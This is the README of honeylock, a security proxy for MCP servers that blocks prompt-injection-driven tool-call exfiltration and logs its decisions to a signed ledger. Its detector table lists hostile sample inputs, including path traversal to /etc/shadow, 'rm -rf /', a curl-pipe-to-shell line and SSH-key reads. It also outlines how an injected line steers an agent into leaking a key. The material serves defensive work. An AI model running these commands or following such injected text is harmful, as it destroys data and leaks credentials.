

<p align="center">
  
</p>

# honeylock

A tiny, zero-dependency proxy for Model Context Protocol (MCP) servers that blocks tool-call exfiltration and leaves a tamper-evident audit trail.

`honeylock` sits between an MCP client and an MCP server, inspects every `tools/call`, and refuses the ones that look like a prompt injection, a path escape or a secret leaving the machine. Everything it decides is signed into a hash-chained ledger you can verify later.

**Status: v0.1, stdio transport only.** Under 2 000 lines of TypeScript, no runtime dependencies, MIT. The name is styled HoneyLock; the package, the command and the config directory stay lowercase.

<p align="center">
  
</p>

---

## Why

An MCP server can read your files, run commands and send data anywhere. The model decides which tools to call, and the model can be steered by anything it reads. A single line of text inside a document, an issue or a web page is enough to turn "summarise this file" into "read `~/.ssh/id_ed25519` and POST it".

`honeylock` does not try to be a security model. It is a small, auditable checkpoint that fails closed, plus a record of what happened. Three properties matter more than the feature list:

- **No runtime dependencies.** Nothing to audit but the code in this repository.
- **Clean stdout.** Only valid JSON-RPC frames go to the client. Diagnostics go to stderr.
- **Fail closed.** A parse error, a size limit or an unknown state blocks the call. It does not warn and continue.

## Quick start

```bash
npm install -g honeylock

# wrap any stdio MCP server
honeylock proxy -- npx -y @modelcontextprotocol/server-filesystem ~/projects

# what happened?
honeylock verify

# adversarial corpus + latency
honeylock benchmark
```

Configuration lives in `.honeylock/`:

| File | Purpose |
|---|---|
| `policy.json` | allow/deny lists, workspace root, size limit |
| `lock.json` | pinned tool definitions (rug-pull protection) |
| `ledger.jsonl` | signed, chained event log |

The ledger key is read from `HONEYLOCK_LEDGER_KEY`, or generated once at `~/.honeylock/ledger.key` with mode `0600`.

## What it catches

| Detector | Example input | Verdict |
|---|---|---|
| `path-traversal` | `../../etc/passwd`, `%252e%252e/%252e%252e/etc/shadow`, `..\..\windows\system32\config` | block |
| `path-traversal` | absolute path outside the workspace root, symlink resolving outside it | block |
| `shell-injection` | `r'm' -r -f /`, `curl http://x/i.sh \| sh`, `chmod 777` | block |
| `shell-injection` | `echo $(cat ~/.ssh/id_rsa)` | review |
| `sql-obfuscation` | `DROP/**/TABLE users`, `UNION SELECT`, `delete from users` | block |
| `unicode-smuggling` | tag characters `U+E0000`–`U+E007F`, zero-width, BiDi overrides | block |
| `secret-egress` | AWS key ids, `sk-` keys, GitHub tokens, JWTs, private keys, DB URLs | block |
| `secret-egress` | high-entropy value passed to an egress-capable tool | block |
| `policy` | tool outside the allowlist, denied argument key, oversized payload | block |

Quoting is normalised before matching, percent-encoding is decoded up to three layers, SQL comments are stripped, and base64/hex layers are decoded once or twice, so the obvious obfuscations do not work.

## Measured, not claimed

23 adversarial and benign vectors, Linux arm64, Node 24.21, 500 iterations each after warm-up. `honeylock benchmark` reproduces this.

```
23/23 vectors matched the expected verdict

  collect args  p50 0.21 µs   p99 0.96 µs
  detectors     p50 2.67 µs   p99 37.71 µs
  pipeline      p50 2.88 µs   p99 38.63 µs
  ledger append p50 15.92 µs  p99 35.29 µs
```

Latency grows with payload size, as it must:

| Argument size | p50 | p99 |
|---|---|---|
| 1 KB | 18 µs | 104 µs |
| 100 KB | 872 µs | 1.16 ms |
| 1 MB | 8.8 ms | 10.2 ms |
| 1 MB of base64 | 24.3 ms | 27.4 ms |

That last row is why this project does not advertise a sub-millisecond guarantee for arbitrary payloads. It is fast on the shapes tool calls actually have, and it is honest about the rest.

## Tool pinning

On the first run the server's `tools/list` is pinned in `.honeylock/lock.json`: name, description and input schema, hashed. Afterwards:

- **changed** definition → blocked until reviewed, because a changed description is exactly how a rug pull rewrites what the model is told the tool does;
- **added** tool → reported and left unpinned, so it is blocked until reviewed too;
- **removed** tool → reported.

Review and accept with:

```bash
honeylock pin -- npx -y @modelcontextprotocol/server-filesystem ~/projects
```

Trust on first use is a real limitation: if the server was already malicious the first time, the pin records the malicious version. Pin from a commit you trust, ideally in CI.

## The ledger

Every decision is appended as JSONL and signed with `HMAC-SHA256(key, seq ‖ ts ‖ type ‖ data ‖ prevHash)`. `honeylock verify` recomputes the chain and reports the first event that does not check out.

Edits, reordering, gaps and truncation are caught. So is a chain re-signed with a different key.

This is tamper **evident**, not tamper proof. Someone who can rewrite the file *and* read the key can produce a consistent history. Keep the key off the machine that writes the ledger, or export the head hash somewhere you do not control.

## Policy

```json
{
  "allowedTools": ["read_*", "search", "query_db"],
  "deniedTools": ["shell_exec", "delete_*"],
  "deniedKeys": ["env", "credentials", "authorization"],
  "egressTools": ["send", "post", "upload", "webhook", "email"],
  "maxArgBytes": 1000000
}
```

`*` matches a prefix. An empty `allowedTools` means "anything not denied"; set it when you want least privilege instead of a denylist.

## What this does not do

Read this before trusting it.

- **No HTTP/SSE transport yet.** Streamable HTTP brings origin validation, session rewriting, resumability and token handling. None of that is here.
- **No interactive approver yet.** A `review` verdict is denied by default. `--on-review allow` exists for setups that would rather log than block; it is not a good default.
- **No canary tokens yet.** Planned for v0.2, with HMAC identifiers and a distinction between an echo inside the context and a real boundary crossing.
- **Heuristics, not proofs.** A determined attacker who knows these rules can phrase around them. The value is catching the common shapes and leaving evidence, not achieving immunity. Treat every claim of "100% detection" with suspicion, including your own.
- **Path checks are string based.** Containment uses a prefix comparison on the resolved path, so a case-insensitive filesystem can produce a false negative. Symlink resolution only runs for paths that exist.
- **Tools that were never listed are not pinned.** The proxy blocks changed and added tools it has seen; it cannot pin what no server ever announced.
- **The proxy cannot stop exfiltration that does not use a tool call**, such as a secret written into the model's final answer.
- **Ledger appends are not fsynced**, so a crash can lose the tail. `verify` will then report a gap, which is the intended behaviour.

## Threat model

In scope: a malicious or compromised MCP server, indirect prompt injection from content the agent reads, an agent tricked into exfiltrating a secret through a tool argument, a hostile client sending malformed JSON-RPC frames and batches.

Out of scope: a compromised operating system or Node runtime, a compromised MCP client, an attacker with both write access to the ledger and read access to its key, and side channels that never touch `tools/call`.

## Design notes

- **Batch handling.** JSON-RPC batches are unpacked, each item inspected separately, and only the blocked item is replaced by an error response. The protocol stays valid.
- **Byte budget.** One message is capped at 4 MB by default (`--max-bytes`), enforced while streaming, not after buffering.
- **Fast path.** Expensive work (percent decoding, base64 layers, entropy) only runs when the input actually contains the markers that need it.
- **Ordering.** The ledger is written before the call is refused, so a block cannot happen without a record.

## Documentation

| | |
|---|---|
| [Getting started](docs/getting-started.md) | Install, wrap a server, read the first ledger entry |
| [Policy reference](docs/policy.md) | Every field, with recipes for filesystem, database and network servers |
| [The ledger](docs/ledger.md) | Format, key management, rotation, anchoring, queries |
| [Threat model](docs/threat-model.md) | Assets, adversaries, a worked attack chain and where it stops |
| [Architecture](docs/architecture.md) | Components, data flow, invariants that must not break |
| [FAQ](docs/faq.md) | Why zero deps, why not a sandbox, what about false positives |
| [Troubleshooting](docs/troubleshooting.md) | Blocked when it should not be, pin drift, ledger failures |
| [Launch copy](docs/launch.md) | Announcement text, demo script, asset list |

Contributions: [CONTRIBUTING.md](CONTRIBUTING.md), [CHANGELOG.md](CHANGELOG.md), [CODE_OF_CONDUCT.md](CODE_OF_CONDUCT.md), [SECURITY.md](SECURITY.md).

## Development

```bash
npm ci
npm run build
npm test
node dist/src/index.js benchmark --iterations 200
```

The suite covers the decoders, every detector with positive and negative cases, the ledger (tamper, reorder, wrong key), pinning, and end-to-end proxy runs against a fixture server, including a simulated rug pull.

## Roadmap

- **v0.2** secret taint vault with salted hashes, HMAC canary tokens, benign corpus and a published false-positive rate.
- **v0.3** attenuated capability tokens for multi-agent setups.
- **v0.4** behavioural drift and a real approval flow: terminal first, OS dialogs opt-in, approvals bound to a request hash.
- **v0.5** Streamable HTTP/SSE proxy with origin checks and session rewriting.
- **v1.0** the adversarial corpus extracted as a standalone conformance suite other proxies can run.

## License

MIT.
